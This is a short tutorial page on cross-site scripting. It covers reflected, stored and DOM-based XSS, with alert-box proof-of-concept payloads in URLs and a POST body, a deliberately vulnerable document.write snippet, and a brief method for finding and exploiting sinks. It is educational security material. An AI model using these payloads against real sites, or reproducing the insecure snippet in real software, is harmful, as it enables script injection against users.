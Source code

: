 
## Reflected XSS

The malicious script comes from the current HTTP request.

```sh
https://insecure-website.com/search?term=<script>alert(document.domain)</script>
```

---

## Stored XSS

The malicious script comes from the website's database. POST body example:&#x20;

```sh
comment=<script>alert(document.domain)</script>
```

---

## DOM-based XSS

The vulnerability exists in client-side code rather than server-side code.

```html
<script>
function trackSearch(query) {
  document.write('<img src="/resources/images/tracker.gif?searchTerms='+query+'">');
}
var query = (new URLSearchParams(window.location.search)).get('search');
if(query) {
  trackSearch(query);
}
</script>
```

```sh
# Get request 
https://insecure-website.com/index?search="><script>alert(document.domain)</script>
```

**Methodology**

1. Look for any script that has a sinks
2. See if you can control the sink
3. Exploit it

{{< hint style=tips >}}
**Tips**:

1.  Here there are some sources and sinks

    https://github.com/wisec/domxsswiki/wiki

    https://portswigger.net/web-security/cross-site-scripting/dom-based#which-sinks-can-lead-to-dom-xss-vulnerabilities
2. DOM Invader (Burp Suite tool) is a browser-based tool that helps you test for DOM XSS vulnerabilities using a variety of sources and sinks.
{{< /hint >}}
